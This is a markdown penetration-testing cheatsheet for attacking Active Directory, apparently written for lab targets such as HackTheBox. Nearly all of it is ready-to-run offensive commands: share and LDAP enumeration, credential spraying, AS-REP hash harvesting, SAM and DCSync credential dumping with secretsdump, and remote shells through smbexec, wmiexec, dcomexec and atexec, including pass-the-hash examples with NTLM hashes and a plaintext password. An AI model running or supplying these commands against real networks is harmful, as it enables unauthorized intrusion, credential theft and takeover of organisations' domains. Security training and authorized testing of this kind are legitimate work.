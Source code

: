 # Active Directory - Network Recon

This is specifically for AD targets. There is also a [generic SMB recon cheatsheet](../network_recon/smb.md)

## Enumeration

```bash
# Wide spectrum enum
nullinux domc.somedomain.local
nullinux 10.10.10.10
enum4linux -a -M -l -d somedomain.local
enum4linux -a -M -l -d 10.10.10.10

# SMB - default ports: 139 & 445
## SMB map shares and content
smbmap -H 10.10.10.10 -P 139
smbmap -H 10.10.10.10 -P 445
smbmap -H 10.10.10.10 -P 139 -R
smbmap -H 10.10.10.10 -P 445 -R
smbmap -H 10.10.10.10 -P 139 -x "ipconfig /all"
smbmap -H 10.10.10.10 -P 445 -x "ipconfig /all"
smbmap -H 10.10.10.10 -u '' -p '' -P 445
smbmap -H 10.10.10.10 -u 'r.thompson' -p 'password' -P 445

# SMB client login
## SMB Null session and guest logins
smbclient -U ''%'' //10.10.10.10/sharename
smbclient -U anonymous -L //10.10.10.10
smbclient -U guest -L //10.10.10.10

## SMB authenticated
smbclient -U username -L //10.10.10.10
smbclient -U username //10.10.10.10/someshare


# ldap - default ports: 389 & 636
nmap -vv --reason -Pn -sV -p 389 --script="banner,(ldap* or ssl*) and not (brute or broadcast or dos or external or fuzzer)"
ldapsearch -x -h 10.10.10.10 -D '' -w '' -b "DC=somedomain,DC=local"


# Bloodhound collector (rpc/user login required)
pip install bloodhound
python3 -m bloodhound -u 's.smith' -p 'password' -d somedomain.local -ns 10.10.10.10 -c ALL

# RPC - default port: 135
## rpc dump
rpcdump.py domc.somedomain.local

## rpc login
rpcclient -U 's.smith%password' 10.10.10.182


# winrm - default port: 5985
evil-winrm -i 10.10.10.182 -u 's.smith' -p 'password'

```

## Credential Spray

If enum4linux, rpc or ldap gives you a list of users, then collect their usernames in a `users.txt` file.

Check smb and winrm login spray if the ports are open (smb 139/445; winrm 5985). Also try username as password, empty password, small pass list.

```bash
# metasploit modules
msf> use scanner/winrm/winrm_login
msf> use scanner/smb/smb_login

set BLANK_PASSWORDS true
set USER_AS_PASS true
```

## Impacket Toolkit

DCE/RPC SAMR dumper. Useful for finding users and domains:

```bash
samrdump.py 10.10.10.10
```

Figure out computer architecture:

```bash
getArch.py -target master.domain.local
```

Look for users with Kerberos pre-authentication disabled and retrieve their krb5asrep pass hash (crack with hashcat):

```bash
GetNPUsers.py domain.local/ -no-pass -format hashcat -usersfile ./users.txt -dc-ip master.domain.local
GetNPUsers.py domain.local/ -no-pass -format hashcat -usersfile ./users.txt -dc-ip 10.10.10.10
```

Impacket's own smbclient implementation:

```bash
smbclient.py [domain]/[user]@[host]
smbclient.py [domain]/[user]@[host] -dc-ip [domain-controller]
smbclient.py htb/svc-alfresco@FOREST -dc-ip 10.10.10.161
```

(authenticated) Bruteforces user SIDs. Requires an rpc user:pass that works:

```bash
lookupsid.py 'username:password'@10.10.10.10
```

(authenticated) Track sessions opened on the remote host(s):

```bash
netview.py someuser -target 10.10.10.10
netview.py DOMAIN/someuser -target 10.10.10.10
netview.py -users ./users -dc-ip freefly-dc.freefly.net -k FREEFLY.NET/beto
```

(Administrator) Dump SAM to extract NTLM hashes of local users. Use DCSync to extract domain credentials:

```bash
secretsdump.py [domain]/[user]@[host]

# only dcsync
secretsdump.py -just-dc [domain]/[user]@[host] -hashes [nl]:[nt]
```

### Impacket remote shells

Get a remote shell via SMB (usually requires Administrator creds):

```bash
smbexec.py SECNOTES/Administrator:u6!4ZwgwOM#^OBf#Nwnh@10.10.10.97
smbexec.py DOMAIN/username:password@host
smbexec.py DOMAIN/username@host -hashes aad3b435b51404eeaad3b435b51404ee:0CB6948805F797BF2A82807973B89537
```

Get a remote shell via WMI endpoint:
```bash
wmiexec.py [domain]/[user]:[password]@[host]
wmiexec.py htb/someuser@somehost -hashes aad3b435b51404eeaad3b435b51404ee:0CB6948805F797BF2A82807973B89537
```

Get a remote shell via DCOM:
```bash
dcomexec.py -object MMC20 [domain]/[user]:[password]@[host]
dcomexec.py -object MMC20 htb/someuser@somehost -hashes aad3b435b51404eeaad3b435b51404ee:0CB6948805F797BF2A82807973B89537
```

RCE via Task Scheduler Service:
```bash
atexec.py DOMAIN/username:password@host whoami
```

## Manual LDAP

* Documentation: https://ldap3.readthedocs.io/en/latest/bind.html

Start python3 interactive mode.

```python
$ python3
>>> import ldap3
>>> server = ldap3.Server('10.10.10.10', get_info = ldap3.ALL, port=636, use_ssl = True)
>>> connection = ldap3.Connection(server)
>>> connection.bind()
True
```

If you don't get `True` then try without SSL. If you don't get True with that either, then you probably need credentials.

Authenticated version:
```python
$ python3
>>> import ldap3
>>> server = ldap3.Server('10.10.10.10', get_info = ldap3.ALL, port=636, use_ssl = True)
>>> connection = ldap3.Connection(server, user='user_dn', password='user_password', auto_bind=True)
>>> connection.bind()
```

Print basic server info:

```python
>>> server.info
```

At the top of the printout you should find:
```python
Naming contexts:
  dc=DOMAIN,dc=TOPDOMAIN
```

Which should be the same as the domain you are investigating, so `DOMAIN.TOPDOMAIN` or for example `somedomain.local` or `cascade.htb`.

Now you should be able to search the LDAP tree. 

```python
# Print everything 
>>> connection.search(search_base='DC=DOMAIN,DC=TOPDOMAIN', search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*')
True
>> connection.entries
# printout here
```

Example `search_filters`:
```python
# save the root as variable
domain_saved = 'DC=DOMAIN,DC=TOPDOMAIN'

# everything
# (&(objectClass=*))
connection.search(search_base=domain_saved, search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*');connection.entries

# all users
# (&(objectClass=person))
connection.search(search_base=domain_saved, search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='*');connection.entries

# all users, only select some fields
# (&(objectClass=person))
# ['displayName', 'sAMAccountName']
connection.search(search_base=domain_saved, search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes=['displayName', 'sAMAccountName']);connection.entries

# individual user by username
# (&(sAMAccountName=s.smith))
connection.search(search_base=domain_saved, search_filter='(&(sAMAccountName=s.smith))', search_scope='SUBTREE', attributes='*');connection.entries
connection.search(search_base=domain_saved, search_filter='(&(sAMAccountName=s.smith))', search_scope='SUBTREE', attributes=['displayName', 'sAMAccountName']);connection.entries

# all computers
connection.search(search_base=domain_saved, search_filter='(&(objectClass=computer))', search_scope='SUBTREE', attributes='*');connection.entries

# all groups
connection.search(search_base=domain_saved, search_filter='(&(objectClass=group))', search_scope='SUBTREE', attributes='*');connection.entries
connection.search(search_base=domain_saved, search_filter='(&(objectClass=group))', search_scope='SUBTREE', attributes=['dn', 'name', 'sAMAccountName']);connection.entries
```

Syntax for `search_filters`:
```bash
# Negated, list all entries where sn is not Smith
(!(sn=Smith))

# AND, all must be true
(&(givenName=A*)(sn=Smith))

# OR, one of them must be true
(|(sn=Smith)(sn=Johnson))
```

To JSON:
```python
# search results to json (press enter twice)
for entry in connection.entries: print(entry.entry_to_json())

# server info to json
print(server.info.to_json())
```
